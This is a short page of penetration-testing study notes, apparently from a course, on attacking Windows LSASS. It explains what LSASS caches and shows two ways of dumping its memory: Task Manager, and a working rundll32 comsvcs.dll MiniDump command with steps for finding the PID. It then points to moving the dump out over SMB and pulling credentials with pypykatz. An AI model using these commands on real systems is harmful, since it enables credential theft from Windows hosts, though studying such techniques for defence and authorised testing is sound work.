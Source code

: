 # Attacking LSASS

* \
  Upon initial logon, LSASS will:
  * Cache credentials locally in memory
  * Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
  * Enforce security policies
  * Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

### Dumping LSASS Process Memory

#### Task Manager Method

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

* to copy files use
  * [Create SMB server Linux (HACK)](app://obsidian.md/Create%20SMB%20server%20Linux%20\(HACK\))

#### Rundll32.exe & Comsvcs.dll Method

* modern anti-virus tools recognize this method as malicious activity.
* Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`.
* This can be done from cmd or PowerShell:

**Finding LSASS PID in cmd**

```cmd-session
tasklist /svc
```

**Finding LSASS PID in PowerShell**

```powershell-session
Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* to copy files use
  * [create-smb-server-linux-hack.md](create-smb-server-linux-hack.md "mention")

### Using Pypykatz to Extract Credentials

* [pypykatz.md](pypykatz.md "mention")
